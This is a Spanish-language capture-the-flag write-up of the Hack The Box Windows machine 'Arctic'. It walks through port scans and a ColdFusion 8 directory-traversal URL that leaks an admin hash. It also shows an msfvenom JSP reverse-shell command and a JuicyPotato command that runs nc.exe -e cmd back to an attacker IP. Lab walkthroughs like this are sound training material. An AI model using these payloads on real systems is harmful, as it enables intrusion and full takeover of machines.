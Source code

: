 
# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows

![Texto alternativo](CTFs/Write-ups/Hack-The-Box/Windows/Artict/imgs/1.jpg)


Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus



Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services



Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.


Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/





Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8



Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp


Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra



Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.



Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 


Busco vulnerabilidades de Adobe ColdFusion 8



Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03



Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”


En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:



Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp



Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp



Comparto el archivo shellreverse.jsp
python3 -m http.server 80


Guardo archivo como tarea programada


Corro la tarea programada



Verifico la carga del archivo







Me pongo en escucha por el puerto 443



Recibo la consola autenticado como tolis en la máquina víctima






# Explotación WEB






# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”



Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe



Me pongo en escucha por el puerto 4646



Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"



Recibo  la consola



Encuentro la Flag







# Links útiles


  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios
## Exploits
## Herramientas
